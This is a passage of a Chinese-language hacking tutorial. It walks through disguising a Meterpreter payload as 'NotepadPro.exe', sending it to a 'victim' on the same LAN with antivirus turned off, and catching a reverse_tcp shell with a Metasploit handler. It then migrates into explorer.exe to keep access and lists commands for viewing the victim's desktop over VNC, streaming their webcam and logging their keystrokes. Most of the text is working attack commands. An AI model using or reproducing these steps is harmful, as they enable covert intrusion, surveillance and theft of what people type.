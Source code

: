 你会发现在`~/`的位置下生成了一个`NotepadPro.exe`。  
把它发给在同一个局域网的用户，并指示受害者打开。前提是360要关掉。  
否则..  
![]({{ site.imgbed }}/img/kalihack/06.png)

### 02.设置内容并等待受害者打开文件
```msf
use exploit/multi/handler
//表示使用活动指向的监听器
```
```msf
set LHOST 192.106.12.175
//设置本机ip
```
```msf
set LPORT 4444
//设置本机端口
```
```msf
set payload windows/meterpreter/reverse_tcp
//设置载荷为*比较开放的tcp*
```
```msf
exploit
//开启监听
```
注意，开启监听后你不会立刻进入`meterpreter`命令提示符的shell直到受害者打开所谓的`NotepadPro.exe`应用。  
可受害者打开后察觉没啥意思后会关闭。关闭后，你将无法继续使用`meterpreter`。怎么办呢？我们需要**注入进程**！  

### 03.注入进程
我们看到这里，已经开始做**最坏的打算了**！  
我们进入`meterpreter`提示符后输入
```msf
ps
```
来查看进程，注意一个进程为`explorer`的内容，记下它的`pid号`。
![]({{ site.imgbed }}/img/kalihack/07.png)
![]({{ site.imgbed }}/img/kalihack/08.png)
`explorer`的*pid*是`4560`.  
融进`explorer`！
![]({{ site.imgbed }}/img/kalihack/09.png)

<br /> <br /> <br />

***

<br />

### Meterpreter命令集
- 使用vnc查看桌面
```msf
run vnc
```
- 监视摄像头
```msf
webcam_stream
```
- 监视键盘按下内容  
```msf
keyscan_start
//开启键盘记录
keyscan_dump
//显示键盘输入内容
keyscan_stop
//停止键盘记录
```